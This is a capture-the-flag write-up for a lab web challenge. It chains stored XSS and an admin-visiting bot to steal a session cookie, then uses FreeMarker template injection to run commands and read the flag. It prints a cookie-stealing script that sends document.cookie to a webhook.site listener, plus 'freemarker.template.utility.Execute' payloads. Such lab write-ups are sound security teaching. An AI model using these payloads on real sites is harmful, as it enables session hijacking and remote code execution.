







The flight computer aboard our spaceship has malfunctioned and needs reprogramming with navigation data from the Galactic Atlas — a collaborative wiki documenting places across the galaxy. A hostile admin has taken over and vandalised the site, so we'll need to wrestle back control to recover the backup stored on the web server.
Upon entering the website, we're greeted with a login page. We register an account with the credentials oka:oka and proceed to the index page:

Presence of a Template Editor button on the sidebar hints at a potential Server-Side Template Injection (SSTI). Clicking it opens:

We learn that the template used by the website is FreeMarker and that before we can exploit SSTI, we need to escalate privileges to admin, as the message suggests.
Browsing the articles, we notice each page has a Report button, suggesting an admin bot visits reported pages. Inspecting the source code, ReportService.kt confirms that a headless browser bot is logging in with admin credentials and visiting the reported article:
driver.get("$baseUrl/login")
driver.findElement(By.name("username")).sendKeys(adminCredentials.first)
driver.findElement(By.name("password")).sendKeys(adminCredentials.second)
driver.findElement(By.cssSelector("button[type='submit']")).click()
Thread.sleep(2000)
driver.get("$baseUrl/articles/$articleName")
// View the page for a bit
Thread.sleep(5000)
This is an angle for cookie theft, but first we need to find where we can store our XSS payload.
Creating a new article and testing both the title and content fields with a simple <script>alert(1)</script>, we find out that both are injectable.

We also note that the session cookie lacks the HttpOnly flag, meaning it's accessible via JavaScript, making it possible to steal it.
XSS Payload
<script>fetch("https://webhook.site/xxxxxx-xxxx-xxxx-xxxx-xxxxxxxxx?"+document.cookie)</script>
I used webhook listener to get the request with the cookie.
After submitting a report on the article with the payload, we receive the admin's request on our listener.

Admin's cookie is ba29782bb23eebedabfb0ef56e25fa0e

In the template editor mentioned earlier, we edit the main template to contain the following FreeMarker payload, allowing us to execute arbitrary commands.
${"freemarker.template.utility.Execute"?new()("ls")}
After saving and reloading any article using the main template we see that the command ls was successfully executed:

change the payload to get the flag
${"freemarker.template.utility.Execute"?new()("cat flag.txt")}
